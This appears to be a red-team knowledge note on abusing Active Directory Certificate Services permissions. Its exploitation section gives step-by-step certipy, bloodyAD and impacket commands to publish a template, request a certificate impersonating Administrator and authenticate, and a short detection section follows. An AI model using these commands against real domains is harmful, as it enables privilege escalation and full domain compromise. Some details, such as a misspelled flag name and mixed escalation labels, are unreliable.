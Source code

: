 ```yaml
---
tags:
  - attack
  - knowledge
  - AD
  - windows
  - redteam
date: 2023-09-1
---
```

- Vulnerability in [[ADCS (Active Directory Certificate Services)|AD CS]].
- Attackers do not need a vulnerable template.
- Attackers abuse `Write DACL` or `Full Control` permissions over CA to:
	- add/publish a vulnerable template.
	- enable any existing template.
	- issue certs that impersonate any identity in AD.
# Background

- [[Certificate Authority (CA)|CA]] publishes templates to AD - if you control the ACLs, you can:
	- publish your own templates (e.g. one with `ENROLLE_SUPPLIES_SUBJECT`)
	- publish existing but unused vulnerable templates (like `User`).
	- control who can request certs.
	- change CA security descriptors.
- If no published templates are exploitable, you can make one available and enroll.
# Vulnerability Criteria

- The user must have one of the following rights:
	- `WriteDACL`
	- `WriteOwner`
	- `FullControl`
- Or can modify:
	- `msPKI-Enrollment-Flag`
	- `pKIExtendedKeyUsage`
	- `certificateTemplates` on the CA object.
# Exploitation

- Enumerate vulnerable CA permissions:
	- `certipy find -u user@domain.local -p 'Pass123!' -dc-ip 10.0.0.5`
	- lists CAs and template access:
		- look for `WriteDACL` or `GenericAll` on CA object.
	- [[BloodyAD]] also available:
		- `bloodyAD acl --object-type pKIEnrollmentService --name "CA01.domain.local" --sid <your-user-sid>`
- Publish a vulnerable template:
	- `bloodyAD ca --action publish --ca "CA01.domain.local" --template "User"`
		- if user vulnerable, exploitable path is ready.
- Request cert using spoofed identity:
	- `certipy req -u user@domain.local -p 'Pass123!' -ca CA01\CA01 -template User -upn Administrator@domain.local -dc-ip 10.0.0.5 -output esc4`
- Authenticate:
	- `certipy auth -pfx esc4.pfx -dc-ip 10.0.0.5`
	- Or use impacket PKINIT tools:
		- `gettgtpkinit.py -pfx esc4.pfx domain.local/Administrator`
# Detection

- Monitor:
	- `Event ID 4899` - template added/removed.
	- changes to `certificateTemplates` attribute on CA objects.
	- unexpected publishing of vulnerable templates.
	- certificate issuance (`Event ID 4886`) from newly added templates.